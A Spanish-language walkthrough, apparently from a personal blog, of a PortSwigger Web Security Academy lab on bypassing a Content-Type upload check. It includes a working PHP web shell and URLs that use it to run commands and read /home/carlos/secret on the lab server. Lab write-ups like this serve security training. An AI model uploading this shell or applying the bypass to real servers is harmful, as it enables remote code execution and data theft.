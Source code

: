 ```yaml
---
title: File Upload Vulnerabilities Lab 2
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via Content-Type restriction bypass
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-2/Portswigger.png
---
```


## Skills

- Web shell upload via Content-Type restriction bypass

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que intenta `evitar` que los usuarios `suban` tipos de `archivos inesperados`, pero se basa en verificar una entrada controlada por el usuario para hacerlo. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego usar este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al intentar subirlo vemos que nos da este `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_5.png)

`Subimos` el `archivo` nuevamente y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_6.png)

Cambiamos el `Content-Type` a `image/png` y `subimos` el `archivo`, posteriormente abrimos nuevamente el `inspector` de `chrome` y vemos que el `archivo` subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_7.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_8.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un `archivo` llamado `secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_9.png)

Leemos la información de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_10.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_11.png)
